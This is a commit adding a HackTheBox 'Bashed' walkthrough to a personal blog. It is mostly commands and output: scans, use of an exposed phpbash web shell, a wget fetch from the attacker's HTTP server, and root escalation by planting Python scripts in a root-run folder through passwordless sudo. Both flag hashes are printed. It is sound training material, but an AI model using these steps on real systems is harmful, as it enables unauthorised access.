

Before and after one commit to seanmharrington/seanmharrington.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the whole page at 89% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; the list of posts is cut into pages by our own code; after the commit the page ends 1070 px from its top, so only the background shows below that; some of the changed lines change nothing that is shown.

Commit message:
Added write-up for HTB bashed now that the machine is retired.

````diff
--- /dev/null
+++ b/_posts/2018-07-31-bashed.md
@@ -0,0 +1,267 @@
+---
+layout: single
+comments: true
+tags: [ctf hackthebox]
+title: "HackTheBox - Bashed"
+classes: wide
+---
+Bash is a retired box on [hackthebox.eu](https://www.hackthebox.eu). This post details my method of obtaining both user and root access for this machine.
+
+## Vulnerability Scanning
+We will first perform a port scan using nmap:
+```
+root@kali:~# nmap -sV -sS -T4 10.10.10.68
+
+Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-14 19:42 EDT
+Nmap scan report for 10.10.10.68
+Host is up (0.099s latency).
+Not shown: 999 closed ports
+PORT   STATE SERVICE VERSION
+80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
+
+Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
+Nmap done: 1 IP address (1 host up) scanned in 11.51 seconds
+```
+
+A faster scan profile sometimes is better for this machine as it resets fairly often and disrupt long scans. Nonetheless, we see there's a HTTP web server.
+
+Browsing the website shows a hint about where to proceed next. The website talks about a tool called phpbash which helps with pentesting and "was developed on this exact server". We can probably find the script somewhere on the webserver and use it to get a basic shell.
+
+I attempted to proceed with scanning the website with nikto:
+```
+root@kali:~# nikto -h 10.10.10.68
+- Nikto v2.1.6
+---------------------------------------------------------------------------
++ Target IP:          10.10.10.68
++ Target Hostname:    10.10.10.68
++ Target Port:        80
++ Start Time:         2018-03-14 21:21:32 (GMT-4)
+---------------------------------------------------------------------------
++ Server: Apache/2.4.18 (Ubuntu)
++ Server leaks inodes via ETags, header found with file /, fields: 0x1e3f 0x55f8bbac32f80
++ The anti-clickjacking X-Frame-Options header is not present.
++ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
++ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
++ No CGI Directories found (use '-C all' to force check all possible dirs)
++ IP address found in the 'location' header. The IP is "127.0.1.1".
++ OSVDB-630: IIS may reveal its internal or real IP in the Location header via a request to the /images directory. The value is "http://127.0.1.1/images/".
++ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
++ /config.php: PHP Config file may contain database IDs and passwords.
++ OSVDB-3268: /dev/: Directory indexing found.
++ OSVDB-3092: /dev/: This might be interesting...
++ OSVDB-3268: /php/: Directory indexing found.
++ OSVDB-3092: /php/: This might be interesting...
++ OSVDB-3268: /images/: Directory indexing found.
++ OSVDB-3268: /images/?pattern=/etc/*&sort=name: Directory indexing found.
++ OSVDB-3233: /icons/README: Apache default file found.
++ 7499 requests: 0 error(s) and 15 item(s) reported on remote host
++ End Time:           2018-03-14 21:35:33 (GMT-4) (841 seconds)
+---------------------------------------------------------------------------
++ 1 host(s) tested
+```
+
+## Exploring the site and machine
+"/dev/" -- Interesting folder indeed to have. Let's browse to it: 10.10.10.68/dev/
+
+![Dev Page](/assets/images/dev-page.jpg "/dev/ page")
+
+There is the php file for phpbash. Run it and we will get a really nice looking web shell (it also has some very nice features like command history).
+
+![PHP Bash](/assets/images/phpbash.jpg "phpbash")
+
+Let's try exploring outside of /var/www/html and see what we have access to.
+
+```
+www-data@bashed:/var/www/html# cd /
+www-data@bashed:/# ls
+bin
+boot
+dev
+etc
+home
+initrd.img
+lib
+lib64
+lost+found
+media
+mnt
+opt
+proc
+root
+run
+sbin
+scripts
+srv
+sys
+tmp
+usr
+var
+vmlinuz
+www-data@bashed:/# cd root
+www-data@bashed:/# cd home
+www-data@bashed:/home# ls
+arrexel
+scriptmanager
+www-data@bashed:/home# cd arrexel
+www-data@bashed:/home/arrexel# ls
+user.txt
+www-data@bashed:/home/arrexel# cat user.txt
+2c281f318555dbc1b856957c7147bfc1
+```
+
+We stumbled upon the hash for user just from some simple enumeration. Let's try to get access to root now. We see that there is another user called scriptmanager.
+
+```
+www-data@bashed:/home/arrexel# cd ../scriptmanager
+www-data@bashed:/home/scriptmanager# ls -al
+total 28
+drwxr-xr-x 3 scriptmanager scriptmanager 4096 Dec 4 17:08 .
+drwxr-xr-x 4 root root 4096 Dec 4 13:53 ..
+-rw------- 1 scriptmanager scriptmanager 2 Dec 4 17:14 .bash_history
+-rw-r--r-- 1 scriptmanager scriptmanager 220 Dec 4 13:53 .bash_logout
+-rw-r--r-- 1 scriptmanager scriptmanager 3786 Dec 4 17:12 .bashrc
+drwxr-xr-x 2 scriptmanager scriptmanager 4096 Dec 4 16:49 .nano
+-rw-r--r-- 1 scriptmanager scriptmanager 655 Dec 4 13:53 .profile
+```
+
+Nothing of interest that can be seen or accessed. At this point, I kept enumerating. If you prefer using a tool to do some of the enumeration and checking of potential misconfigurations on the system, you can download files to the target machine by setting up a HTTP server on your local machine. Then fetch the files using wget.
+
+Example:
+
+On the attacker machine:
+```
+seanmharrington@kali:~$ ls
+seanmharrington@kali:~$ mkdir httpserver
+seanmharrington@kali:~$ cd httpserver
+seanmharrington@kali:~/httpserver$ touch test.txt
+seanmharrington@kali:~/httpserver$ ls
+test.txt
+seanmharrington@kali:~/httpserver$ python -m SimpleHTTPServer
+Serving HTTP on 0.0.0.0 port 8000 ...
+10.10.15.251 - - [16/Mar/2018 22:52:57] "GET / HTTP/1.1" 200 -
+10.10.15.251 - - [16/Mar/2018 22:53:09] "GET /test.txt HTTP/1.1" 200 -
+```
+
+On target machine you want to download file to from shell:
+
+```
+www-data@bashed:/tmp# wget 10.10.15.251:8000/test.txt
+--2018-03-16 19:54:55-- http://10.10.15.251:8000/test.txt
+Connecting to 10.10.15.251:8000... connected.
+HTTP request sent, awaiting response... 200 OK
+Length: 0 [text/plain]
+Saving to: 'test.txt'
+
+ 0K 0.00 =0s
+
+2018-03-16 19:54:55 (0.00 B/s) - 'test.txt' saved [0/0]
+```
+
+From my enumeration, I found a couple of interesting things:
+```
+www-data@bashed:/var/www/html# sudo -l -U www-data
+Matching Defaults entries for www-data on bashed:
+ env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
+
+User www-data may run the following commands on bashed:
+ (scriptmanager : scriptmanager) NOPASSWD: ALL
+```
+
+This means that if www-data sudos as user scriptmanager, there's no password. Also, there's an interesting directory that scriptmanager owns on the root level of the machine:
+
+```
+www-data@bashed:/# ls -al
+total 88
+drwxr-xr-x 23 root root 4096 Dec 4 13:02 .
+drwxr-xr-x 23 root root 4096 Dec 4 13:02 ..
+drwxr-xr-x 2 root root 4096 Dec 4 11:22 bin
+drwxr-xr-x 3 root root 4096 Dec 4 11:17 boot
+drwxr-xr-x 19 root root 4240 Mar 16 19:19 dev
+drwxr-xr-x 89 root root 4096 Dec 4 17:09 etc
+drwxr-xr-x 4 root root 4096 Dec 4 13:53 home
+lrwxrwxrwx 1 root root 32 Dec 4 11:14 initrd.img -> boot/initrd.img-4.4.0-62-generic
+drwxr-xr-x 19 root root 4096 Dec 4 11:16 lib
+drwxr-xr-x 2 root root 4096 Dec 4 11:13 lib64
+drwx------ 2 root root 16384 Dec 4 11:13 lost+found
+drwxr-xr-x 4 root root 4096 Dec 4 11:13 media
+drwxr-xr-x 2 root root 4096 Feb 15 2017 mnt
+drwxr-xr-x 2 root root 4096 Dec 4 11:18 opt
+dr-xr-xr-x 115 root root 0 Mar 16 19:19 proc
+drwx------ 3 root root 4096 Dec 4 13:03 root
+drwxr-xr-x 18 root root 500 Mar 16 19:20 run
+drwxr-xr-x 2 root root 4096 Dec 4 11:18 sbin
+drwxrwxr-- 2 scriptmanager scriptmanager 4096 Dec 4 18:06 scripts
+drwxr-xr-x 2 root root 4096 Feb 15 2017 srv
+dr-xr-xr-x 13 root root 0 Mar 16 19:29 sys
+drwxrwxrwt 10 root root 4096 Mar 16 19:35 tmp
+drwxr-xr-x 10 root root 4096 Dec 4 11:13 usr
+drwxr-xr-x 12 root root 4096 Dec 4 11:20 var
+lrwxrwxrwx 1 root root 29 Dec 4 11:14 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
+```
+
+Using the sudo abilities, we can take a look at what's in the scripts folder.
+
+```
+ww-data@bashed:/# sudo -u scriptmanager ls -al /scripts
+total 16
+drwxrwxr-- 2 scriptmanager scriptmanager 4096 Dec 4 18:06 .
+drwxr-xr-x 23 root root 4096 Dec 4 13:02 ..
+-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 17:03 test.py
+-rw-r--r-- 1 root root 12 Mar 16 20:00 test.txt
+www-data@bashed:/# sudo -u scriptmanager cat /scripts/test.py
+f = open("test.txt", "w")
+f.write("testing 123!")
+f.close
+```
+
+From first sight, this may seem like nothing useful but note the permission of the test.txt file. It's actually owned by root. It appears that although scriptmanager created the python script, it was actually ran by root.
+
+If this is so, we can try to write a python script that reads the contents of the /root/ directory to see what's there.
+
+```
+www-data@bashed:/# cd /tmp
+www-data@bashed:/tmp# ls
+VMwareDnD
+nix_priv_enum.sh
+systemd-private-0dec667e2fac48fb989ef55d5f856a2d-systemd-timesyncd.service-Fnb5Py
+test.py
+test.txt
+vmware-root
+www-data@bashed:/tmp# echo "import subprocess; proc = subprocess.Popen(['ls', '-al', '/root'], stdout=subprocess.PIPE); output = proc.communicate()[0]; f = open('test.txt', 'w'); f.write(output); f.close" > testscript.py
+www-data@bashed:/tmp# sudo -u scriptmanager cp testscript.py /scripts/testscript.py
+www-data@bashed:/tmp# sudo -u scriptmanager cat /scripts/test.txt
+total 32
+drwx------ 3 root root 4096 Dec 4 13:03 .
+drwxr-xr-x 23 root root 4096 Dec 4 13:02 ..
+-rw------- 1 root root 1 Dec 23 20:22 .bash_history
+-rw-r--r-- 1 root root 3121 Dec 4 17:12 .bashrc
+drwxr-xr-x 2 root root 4096 Dec 4 16:33 .nano
+-rw-r--r-- 1 root root 148 Aug 17 2015 .profile
+-r-------- 1 root root 33 Dec 4 12:48 root.txt
+-rw-r--r-- 1 root root 66 Dec 4 13:03 .selected_editor
+```
+
+The output shows that the script was indeed ran as root otherwise we wouldn't have been able to print the results of ls to test.txt. root.txt appears to the be root hash file. We can write another python script and use the same method to read /root/root.txt now.
+
+## Root Access
+
+```
+www-data@bashed:/tmp# echo "readfile = open('/root/root.txt', 'r'); passw = readfile.read(); f = open('spoiler.txt', 'w'); f.write(passw)" > script.py
+
+www-data@bashed:/tmp# sudo -u scriptmanager cp script.py /scripts/script.py
+www-data@bashed:/tmp# sudo -u scriptmanager ls -al /scripts
+total 28
+drwxrwxr-- 2 scriptmanager scriptmanager 4096 Mar 16 19:04 .
+drwxr-xr-x 23 root root 4096 Dec 4 13:02 ..
+-rw-r--r-- 1 scriptmanager scriptmanager 110 Mar 16 19:04 script.py
+-rw-r--r-- 1 root root 33 Mar 16 19:04 spoiler.txt
+-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 17:03 test.py
+-rw-r--r-- 1 root root 12 Mar 16 19:04 test.txt
+-rw-r--r-- 1 scriptmanager scriptmanager 182 Mar 16 18:50 testscript.py
+www-data@bashed:/tmp# sudo -u scriptmanager cat scripts/spoiler.txt
+cat: scripts/spoiler.txt: No such file or directory
+www-data@bashed:/tmp# sudo -u scriptmanager cat /scripts/spoiler.txt
+cc4f0afe3a1026d402ba10329674a8e2
+```
+
+And success, the root hash code.
--- a/index.html
+++ b/index.html
@@ -5,8 +5,6 @@ permalink: /
 author_profile: false
 ---
 <body>
-Welcome! This page offers an overview of recent projects and posts I have put together. Check <a href="/posts/">Posts</a> for all my blog plots and <a href="/projects/">Projects</a> for all my previous projects. If you are interested in getting to know me, please check my <a href="/about/">About</a> page!
-
 </body>
 
 <div class="cf">
````
Also changed, not shown: assets/images/dev-page.jpg (added), assets/images/phpbash.jpg (added), 2 other files.
